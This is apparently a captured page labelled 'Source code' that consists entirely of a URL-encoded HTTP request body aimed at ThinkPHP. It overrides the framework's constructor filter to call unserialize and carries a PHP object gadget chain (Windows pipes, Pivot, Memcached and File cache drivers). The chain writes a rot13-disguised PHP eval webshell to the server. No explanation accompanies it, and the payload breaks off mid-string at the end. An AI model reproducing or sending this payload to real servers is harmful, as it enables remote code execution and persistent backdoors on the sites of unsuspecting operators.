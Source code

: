 ```http
_method=__construct&method=get&filter[]=unserialize&get[]=%4f%3a%32%37%3a%22%74%68%69%6e%6b%5c%70%72%6f%63%65%73%73%5c%70%69%70%65%73%5c%57%69%6e%64%6f%77%73%22%3a%38%3a%7b%73%3a%33%34%3a%22%00%74%68%69%6e%6b%5c%70%72%6f%63%65%73%73%5c%70%69%70%65%73%5c%57%69%6e%64%6f%77%73%00%66%69%6c%65%73%22%3b%61%3a%31%3a%7b%69%3a%30%3b%4f%3a%31%37%3a%22%74%68%69%6e%6b%5c%6d%6f%64%65%6c%5c%50%69%76%6f%74%22%3a%33%35%3a%7b%73%3a%36%3a%22%70%61%72%65%6e%74%22%3b%4f%3a%32%30%3a%22%74%68%69%6e%6b%5c%63%6f%6e%73%6f%6c%65%5c%4f%75%74%70%75%74%22%3a%33%3a%7b%73%3a%33%31%3a%22%00%74%68%69%6e%6b%5c%63%6f%6e%73%6f%6c%65%5c%4f%75%74%70%75%74%00%76%65%72%62%6f%73%69%74%79%22%3b%69%3a%31%3b%73%3a%32%38%3a%22%00%74%68%69%6e%6b%5c%63%6f%6e%73%6f%6c%65%5c%4f%75%74%70%75%74%00%68%61%6e%64%6c%65%22%3b%4f%3a%33%30%3a%22%74%68%69%6e%6b%5c%73%65%73%73%69%6f%6e%5c%64%72%69%76%65%72%5c%4d%65%6d%63%61%63%68%65%64%22%3a%32%3a%7b%73%3a%31%30%3a%22%00%2a%00%68%61%6e%64%6c%65%72%22%3b%4f%3a%32%33%3a%22%74%68%69%6e%6b%5c%63%61%63%68%65%5c%64%72%69%76%65%72%5c%46%69%6c%65%22%3a%33%3a%7b%73%3a%31%30%3a%22%00%2a%00%6f%70%74%69%6f%6e%73%22%3b%61%3a%35%3a%7b%73%3a%34%3a%22%70%61%74%68%22%3b%73%3a%36%39%3a%22%70%68%70%3a%2f%2f%66%69%6c%74%65%72%2f%77%72%69%74%65%3d%73%74%72%69%6e%67%2e%72%6f%74%31%33%2f%72%65%73%6f%75%72%63%65%3d%2e%2f%3c%3f%63%75%63%20%72%69%6e%79%28%24%5f%43%42%46%47%5b%32%32%32%5d%29%3b%3f%3e%22%3b%73%3a%31%32%3a%22%63%61%63%68%65%5f%73%75%62%64%69%72%22%3b%73%3a%30%3a%22%22%3b%73%3a%36%3a%22%65%78%70%69%72%65%22%3b%69%3a%30%3b%73%3a%36%3a%22%70%72%65%66%69%78%22%3b%73%3a%30%3a%22%22%3b%73%3a%31%33%3a%22%64%61%74%61%5f%63%6f%6d%70%72%65%73%73%22%3b%62%3a%30%3b%7d%73%3a%31%30%3a%22%00%2a%00%68%61%6e%64%6c%65%72%22%3b%4e%3b%73%3a%36%3a%22%00%2a%00%74%61%67%22%3b%73%3a%35%3a%22%61%64%6d%69%6e%22%3b%7d%73%3a%39%3a%22%00%2a%00%63%6f%6e%66%69%67%22%3b%61%3a%37%3a%7b%73%3a%34%3a%22%68%6f%73%74%22%3b%73%3a%39%3a%22%31%32%37%2e%30%2e%30%2e%31%22%3b%73%3a%34%3a%22%70%6f%72%74%22%3b%69%3a%31%31%32%31%31%3b%73%3a%36%3a%22%65%78%70%69%72%65%22%3b%69%3a%33%36%30%30%3b%73%3a%37%3a%22%74%69%6d%65%6f%75%74%22%3b%69%3a%30%3b%73%3a%31%32%3a%22%73%65%73%73%69%6f%6e%5f%6e%61%6d%65%22%3b%73%3a%30%3a%22%22%3b%73%3a%38%3a%22%75%73%65%72%6e%61%6d%65%22%3b%73%3a%30%3a%22%22%3b%73%3a%38%3a%22%70%61%73%73%77%6f%72%64%22%3b%73%3a%30%3a%22%22%3b%7d%7d%73%3a%39%3a%22%00%2a%00%73%74%79%6c%65%73%22%3b%61%3a%31%3a%7b%69%3a%30%3b%73%3a%37%3a%22%67%65%74%41%74%74%72%22%3b%7d%7d%73%3a%32%31%3a%22%00%2a%00%61%75%74%6f%57%72%69%74%65%54%69%6d%65%73%74%61%6d%70%22%3b%62%3a%30%3b%73%3a%31%33%3a%22%00%2a%00%63%6f%6e%6e%65%63%74%69%6f%6e%22%3b%61%3a%30%3a%7b%7d%73%3a%38%3a%22%00%2a%00%71%75%65%72%79%22%3b%4e%3b%73%3a%37%3a%22%00%2a%00%6e%61%6d%65%22%3b%73%3a%35%3a%22%50%69%76%6f%74%22%3b%73%3a%38%3a%22%00%2a%00%74%61%62%6c%65%22%3b%4e%3b%73%3a%38%3a%22%00%2a%00%63%6c%61%73%73%22%3b%73%3a%31%37%3a%22%74%68%69%6e%6b%5c%6d%6f%64%65%6c%5c%50%69%76%6f%74%22%3b%73%3a%38%3a%22%00%2a%00%65%72%72%6f%72%22%3b%4f%3a%32%37%3a%22%74%68%69%6e%6b%5c%6d%6f%64%65%6c%5c%72%65%6c%61%74%69%6f%6e%5c%48%61%73%4f%6e%65%22%3a%31%30%3a%7b%73%3a%31%34%3a%22%00%2a%00%65%61%67%65%72%6c%79%54%79%70%65%22%3b%69%3a%31%3b%73%3a%31%31%3a%22%00%2a%00%6a%6f%69%6e%54%79%70%65%22%3b%69%3a%35%3b%73%3a%31%31%3a%22%00%2a%00%62%69%6e%64%41%74%74%72%22%3b%61%3a%31%3a%7b%73%3a%31%3a%22%61%22%3b%73%3a%31%3a%22%62%22%3b%7d%73%3a%31%31%3a%22%00%2a%00%72%65%6c%61%74%69%6f%6e%22%3b%4e%3b%73%3a%39%3a%22%00%2a%00%70%61%72%65%6e%74%22%3b%4f%3a%31%37%3a%22%74%68%69%6e%6b%5c%6d%6f%64%65%6c%5c%50%69%76%6f%74%22%3a%33%35%3a%7b%73%3a%36%3a%22%70%61%72%65%6e%74%22%3b%4e%3b%73%3a%32%31%3a%22%00%2a%00%61%75%74%6f%57%72%69%74%65%54%69%6d%65%73%74%61%6d%70%22%3b%62%3a%30%3b%73%3a%31%33%3a%22%00%2a%00%63%6f%6e%6e%65%63%74%69%6f%6e%22%3b%61%3a%30%3a%7b%7d%73%3a%38%3a%22%00%2a%00%71%75%65%72%79%22%3b%4e%3b%73%3a%37%3a%22%00%2a%00%6e%61%6d%65%22%3b%73%3a%35%3a%22%50%69%76%6f%74%22%3b%73%3a%38%3a%22%00%2a%00%74%61%62%6c%65%22%3b%4e%3b%73%3a%38%3a%22%00%2a%00%63%6c%61%73%73%22%3b%73%3a%31%37%3a%22%74%68%69%6e%6b%5c%6d%6f%64%65%6c%5c%50%69%76%6f%74%22%3b%73%3a%38%3a%22%00%2a%00%65%72%72%6f%72%22%3b%4e%3b%73%3a%31%31%3a%22%00%2a%00%76%61%6c%69%64%61%74%65%22%3b%4e%3b%73%3a%35%3a%22%00%2a%00%70%6b%22%3b%4e%3b%73%3a%38%3a%22%00%2a%00%66%69%65%6c%64%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%65%78%63%65%70%74%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%64%69%73%75%73%65%22%3b%61%3a%30%3a%7b%7d%73%3a%31%31%3a%22%00%2a%00%72%65%61%64%6f%6e%6c%79%22%3b%61%3a%30%3a%7b%7d%73%3a%31%30%3a%22%00%2a%00%76%69%73%69%62%6c%65%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%68%69%64%64%65%6e%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%61%70%70%65%6e%64%22%3b%61%3a%30%3a%7b%7d%73%3a%37%3a%22%00%2a%00%64%61%74%61%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%6f%72%69%67%69%6e%22%3b%61%3a%30%3a%7b%7d%73%3a%31%31%3a%22%00%2a%00%72%65%6c%61%74%69%6f%6e%22%3b%61%3a%30%3a%7b%7d%73%3a%37%3a%22%00%2a%00%61%75%74%6f%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%69%6e%73%65%72%74%22%3b%61%3a%30%3a%7b%7d%73%3a%39%3a%22%00%2a%00%75%70%64%61%74%65%22%3b%61%3a%30%3a%7b%7d%73%3a%31%33%3a%22%00%2a%00%63%72%65%61%74%65%54%69%6d%65%22%3b%73%3a%31%31%3a%22%63%72%65%61%74%65%5f%74%69%6d%65%22%3b%73%3a%31%33%3a%22%00%2a%00%75%70%64%61%74%65%54%69%6d%65%22%3b%73%3a%31%31%3a%22%75%70%64%61%74%65%5f%74%69%6d%65%22%3b%73%3a%31%33%3a%22%00%2a%00%64%61%74%65%46%6f%72%6d%61%74%22%3b%73%3a%31%31%3a%22%59%2d%6d%2d%64%20%48%3a%69%3a%73%22%3b%73%3a%37%3a%22%00%2a%00%74%79%70%65%22%3b%61%3a%30%3a%7b%7d%73%3a%31%31%3a%22%00%2a%00%69%73%55%70%64%61%74%65%22%3b%62%3a%30%3b%73%3a%38%3a%22%00%2a%00%66%6f%72%63%65%22%3b%62%3a%30%3b%73%3a%31%34%3a%22%00%2a%00%75%70%64%61%74%65%57%68%65%72%65%22%3b%4e%3b%73%3a%31%36%3a%22%00%2a%00%66%61%69%6c%45%78%63%65%70%74%69%6f%6e%22%3b%62%3a%30%3b%73%3a%31%37%3a%22%00%2a%00%75%73%65%47%6c%6f%62%61%6c%53%63%6f%70%65%22%3b%62%3a%31%3b%73%3a%31%36%3a%22%00%2a%00%62%
```